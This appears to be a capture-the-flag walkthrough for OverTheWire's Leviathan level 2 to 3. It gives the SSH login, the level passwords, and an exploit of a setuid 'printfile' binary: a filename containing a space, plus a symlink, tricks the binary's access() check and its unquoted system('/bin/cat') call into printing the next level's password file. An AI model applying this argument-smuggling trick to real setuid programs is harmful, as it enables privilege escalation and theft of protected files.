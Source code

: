# Leviathan Level 2 → Level 3
There is no information for this level, intentionally.

## Solution

```
┌──(kali㉿kali)-[~]
└─$ ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
```
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
leviathan2@leviathan.labs.overthewire.org's password: ougahZi8Ta
```
Linux leviathan 4.18.12 x86_64 GNU/Linux
```               
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
               
```             
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!

  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!
```
leviathan2@leviathan:~$ ls -al                                          #list all the contents in the homedirectory of leviathan2
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile         #there is a setuid file named as printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile

leviathan2@leviathan:~$ file printfile                                  #to know the file type of printfile
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46891a094764828605a00c0c38abfccbe4b46548, not stripped

leviathan2@leviathan:~$ ./printfile                                     #since it is an executable file, execute it
*** File Printer ***
Usage: ./printfile filename                                             #it prints any file mentioned with it

leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3      #try to print the leviathan3 password file
You cant have that file...

                                                                        #make a file to test the setuid file
                                                                       

leviathan2@leviathan:~$ mkdir /tmp/myl2                                 #create a directory myl2 under temp

leviathan2@leviathan:~$ cd /tmp/myl2                                    #navigate to myl2 directory

leviathan2@leviathan:/tmp/myl2$ touch test.txt                          #create a file test.txt in the myl2 directory

leviathan2@leviathan:/tmp/myl2$ ltrace ~/printfile test.txt             #see the function of the setuid file with this test file
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("test.txt", 4)                            = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```
### Note1: From the above output, a security hole can be witnessed. access() checks permissions based on the process’ real user ID rather than the effective user ID. Since printfile is owned by leviathan3, access() will call the process with leviathan3’s privileges.
### Note2: While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. Add a space to a filename, then /bin/cat will read the file as 2 separate files.
```
leviathan2@leviathan:/tmp/myl2$ touch pass\ file.txt                            #create a file named as "pass file.txt"

leviathan2@leviathan:/tmp/myl2$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++                                                       #/bin/cat calls "pass file.txt" as two seperate files "pass" and "file.txt"

leviathan2@leviathan:/tmp/myl2$ ln -s /etc/leviathan_pass/leviathan3 /tmp/myl2/pass          #create a symbolic link for "pass" part of "pass file.txt" and link it to the leviathan3 password file

leviathan2@leviathan:/tmp/myl2$ ls -la                                                       #verify the output of the above process
total 268
drwxr-sr-x   2 leviathan2 root   4096 Feb 13 10:57 .
drwxrws-wt 185 root       root 266240 Feb 13 10:56 ..
lrwxrwxrwx   1 leviathan2 root     30 Feb 13 10:57 pass -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Feb 13 10:55 pass file.txt
-rw-r--r--   1 leviathan2 root      0 Feb 13 10:51 test.txt

leviathan2@leviathan:/tmp/myl2$ ~/printfile "pass file.txt"                                   #now run the setuid file for the "pass file.txt"
Ahdiemoo1j                                                                                    #leviathan3 password
/bin/cat: file.txt: No such file or directory

leviathan2@leviathan:/tmp/myl2$ rm -rf /tmp/myl2                                              #delete the created myl2 directory

leviathan2@leviathan:/tmp/myl2$ exit                                                          #logout from leviathan.labs.overthewire.org
logout
Connection to leviathan.labs.overthewire.org closed.                      

```


#### Command-line help text
```
mkdir-> make directories
file -> determine file type

ls   -> list directory contents
-a   -> do not ignore entries starting with .
-l   -> use a long listing format

cd   -> change the working directory
cat  -> concatenate files and print on the standard output
grep -> print lines matching a pattern
touch-> create a file/ change file timestamps

ln   -> make links between files
-s   -> make symbolic links instead of hard links

rm   -> remove files or directories
-r   -> remove directories and their contents recursively
-f   -> ignore nonexistent files, never prompt
```

